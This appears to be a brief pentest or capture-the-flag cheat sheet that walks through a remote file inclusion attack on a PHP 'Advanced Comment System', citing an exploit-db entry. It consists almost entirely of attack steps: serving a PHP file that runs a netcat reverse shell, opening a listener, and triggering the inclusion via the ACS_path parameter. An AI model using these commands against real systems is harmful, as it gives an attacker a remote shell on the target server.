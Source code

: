 ### start local http server
```
python3 -m http.server 80
```

### create php reverse shell and insert
```
vim tconfig.php
<?php system("nc <lhost> <lport> -e /bin/sh"); ?>
```

### start listener
```
nc -lvp <lport>
```

### trigger remote file inclusion
https://<rhost>/internal/advanced_comment_system/index.php?ACS_path=http://<lhost>/t  

### References
https://www.exploit-db.com/exploits/9623  

